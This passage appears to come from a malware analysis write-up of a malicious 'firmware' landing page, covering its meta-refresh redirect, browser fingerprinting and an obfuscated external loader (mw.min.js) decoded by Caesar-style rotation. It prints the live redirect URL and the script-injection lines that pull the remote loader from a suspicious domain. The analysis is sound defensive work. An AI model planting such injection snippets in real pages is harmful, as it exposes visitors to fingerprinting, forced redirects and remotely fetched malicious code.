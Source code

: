 ```bash
node reconstruct_urls.js
```

(You can find the Node scripts I used earlier — they parse the mapping object inside `mw.min.js`, apply the Caesar-style decode seen in the obfuscated code, and produce decoded key/value pairs and reconstructed URLs. Those scripts only decode strings and never `eval` or run remote fetches.)



## 4 — What the initial HTML contained (static observation)

From `gofirmware_page.html` (`loading-page`):

- A **meta refresh**:
    
    ```html
    <meta http-equiv="refresh" content="5;url=https://ak.inazumarillom.com/4/8643286?var=mfa">
    ```
    
    → Redirects client after 5 seconds.
    
- An **inline script** that:
    
    - Contains obfuscated code that reconstructs a query string using `navigator.userAgentData` (if present).
        
    - Builds a URL and executes `window.location.replace(...)` with those appended parameters.
        
    - Injects an external script via:
        
        ```js
        s.src='//hoksomuptak.net/0c5/9cac6/mw.min.js?z=8643282' + '&sw=/sw-check-permissions-80925.js';
        document.head.appendChild(s);
        ```
        
    - Yandex Metrika analytics snippet (tracking) was present.
        

**Interpretation:** the page tries to ensure a redirect occurs (meta refresh + JS). The JS collects browser fingerprint info and loads an external, obfuscated loader. The external loader (mw.min.js) is the real workhorse.



## 5 — External loader (`mw.min.js`) — static analysis & decoding

I downloaded `mw.min.js` and performed static decoding of the mapping object found inside the obfuscated code.

### How the loader was obfuscated

- The file contains a big mapping object with strings obfuscated by a simple per-letter rotation (a Caesar-like shift ±12) and dynamic getters.
    
- The loader computes many values via `Object.defineProperty` getters and only decodes strings on demand.
    